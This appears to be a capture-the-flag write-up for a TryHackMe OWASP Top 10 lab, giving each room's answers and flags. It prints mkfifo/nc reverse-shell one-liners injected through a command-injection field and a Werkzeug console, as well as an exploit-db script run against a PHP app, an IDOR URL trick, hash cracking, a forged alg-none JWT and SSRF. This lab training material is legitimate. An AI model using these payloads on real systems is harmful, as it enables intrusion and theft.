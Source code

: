 # OWASP Top 10 - 2021

### Broken Access Control (IDOR Challenge)
- Look at other users' notes. What is the flag? <br />
Deploy the machine and go to http://IP_addr - Login with the username noot and the password test1234 <br />
Since we know this is an IDOR (Insecure Direct Object Reference) vulnerability, let's try to play with the URL: <br />
![image](https://github.com/user-attachments/assets/0f3fcfc2-75f7-450e-85bb-d5e39a775855) <br />
By using id=0, we have access to the flag: `flag{fivefourthree}`

### Cryptographic Failures (Challenge)
- Have a look around the web app. The developer has left themselves a note indicating that there is sensitive data in a specific directory. <br />
Go to http://IP_addr:81 and move to the login page<br />
![image](https://github.com/user-attachments/assets/4b133324-0c49-4fa2-bf78-08d166df2ba6) <br />
Now press CTRL+U to view the source code. There's something interesting: <br />
![image](https://github.com/user-attachments/assets/649e8bf0-d820-4d0a-8e70-d32047e42347) <br />
Now move to http://10.10.119.6:81/assets/ and download the `webapp.db` file. The file contains a "user" table, here's the content of it: <br />
![image](https://github.com/user-attachments/assets/8c9cdf0e-a137-4479-a2a6-04a172089bf3) <br />
Now use CrackStation to try and crack the admin password: <br />
![image](https://github.com/user-attachments/assets/1166d1ec-d3c4-4226-a182-28fd4a2bdbaf)<br />
- What is the name of the mentioned directory? `/assets`
- Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data? `webapp.db`
- Use the supporting material to access the sensitive data. What is the password hash of the admin user? `6eea9b7ef19179a06954edd0f6c05ceb`
- What is the admin's plaintext password? `qwertyuiop`
- Log in as the admin. What is the flag? `THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}`

### 3.1. Command Injection
To complete the questions below, navigate to http://10.10.119.6:82/ and exploit the cowsay server. <br />
Go to http://10.10.119.6:82. This web application is vulnerable to command injection. If we input $(whoami), it outputs "apache": <br />
![image](https://github.com/user-attachments/assets/ec5bedec-7581-4d7e-b877-fdda399b4894)<br />
Let's quickly get a reverse shell. Start listening on our machine with `nc -lnvp 4444`. The submit this payload to the application: `$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.85.53 4444 >/tmp/f)`. This will give us a reverse shell: <br />
![image](https://github.com/user-attachments/assets/aff5a3e7-6551-4e25-b304-40b02cd77b5e)<br />
- What strange text file is in the website's root directory? `drpepper.txt`
- How many non-root/non-service/non-daemon users are there? `0`
- What user is this app running as? `apache`
- What is the user's shell set as? `/sbin/nologin`
- What version of Alpine Linux is running? `3.16.0`

### 4. Insecure Design
- What is the value of the flag in joseph's account? <br />
Little hint: green. <br />
`THM{Not_3ven_c4tz_c0uld_sav3_U!}`

### 5. Security Misconfiguration
Here we can execute system commands on the Werkzeug console, for example: <br />
![image](https://github.com/user-attachments/assets/1da359b5-7968-46d2-b54e-c2afab4aa9af)<br />
Let's spawn a reverse shell. Start a netcat listener on your machine: `nc -lnvp 4444` and, from the image above, instead of "ls -l", type `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.85.53 4444 >/tmp/f` and spawn a shell: <br />
![image](https://github.com/user-attachments/assets/d556ab1c-f012-4329-a9d6-f938a26fd930)<br />
- What is the database file name (the one with the .db extension) in the current directory? `todo.db`
- Modify the code to read the contents of the app.py file, which contains the application's source code. What is the value of the secret_flag variable in the source code? `THM{Just_a_tiny_misconfiguration}`

- ### Vulnerable and Outdated Components - Lab
- What is the content of the /opt/flag.txt file? <br />
We can use `searchsploit` to find what we are looking for: <br />
![image](https://github.com/user-attachments/assets/566b34d2-6bee-418d-b158-36fb1f019657)<br />
Now run the command: `python3 /usr/share/exploitdb/exploits/php/webapps/47887.py http://10.10.119.6:84`
![image](https://github.com/user-attachments/assets/39ddd822-37c7-4c5f-8eb9-109246e1070f) <br />
the answer is `THM{But_1ts_n0t_my_f4ult!}`.

### 7. Identification and Authentication Failures
- What is the flag that you found in darren's account? `fe86079416a21a3c99937fea8874b667`
- What is the flag that you found in arthur's account? `d9ac0f7db4fda460ac3edeb75d75e16e`

### 8. Software Integrity Failures
- What is the SHA-256 hash of https://code.jquery.com/jquery-1.12.4.min.js? `sha256-ZosEbRLbNQzLpnKIkEdrPv7lOy9C27hHQ+Xp8a4MxAQ=`

### Data Integrity Failures
- Try logging into the application as guest. What is guest's account password? `guest`
- What is the name of the website's cookie containing a JWT token? <br />
![image](https://github.com/user-attachments/assets/4d11ee50-5d67-4868-81eb-1ddfe60b91c1)<br />
`jwt-session`
- What is the flag presented to the admin user? <br />
A JWT token is made of three parts: the **header** contains informations such as the algorithm used for the signature, the **body** contains the actual information, and then there's the **signature**. These sections are all **base64 encoded and separated by dots**. Therefore, take the first two parts of the JWT token and decode them and here's the content:

      header: {"typ":"JWT","alg":"HS256"}
      body: {"username":"guest","exp":1724776829}
So, one thing we can try to do is to manually change the "alg" value to "none", and the "username" value as "admin", to try to log as admins. The new JWT looks like this: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzI0Nzc2ODI5fQ==.` <br />
![image](https://github.com/user-attachments/assets/ecea5c47-897b-4c1c-b376-7f13b2459be7)<br />
`THM{Dont_take_cookies_from_strangers}`

### 9. Security Logging and Monitoring Failures
![image](https://github.com/user-attachments/assets/cf43ffa9-3258-4b9b-aa1f-67399fa52f62)<br />
- What IP address is the attacker using? `49.99.13.16`
- What kind of attack is being carried out? `Brute Force`
 
### 10. Server-Side Request Forgery (SSRF)
- Explore the website. What is the only host allowed to access the admin area? `localhost`
- Check the "Download Resume" button. Where does the server parameter point to? `secure-file-storage.com`
- Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request? `THM{Hello_Im_just_an_API_key}`






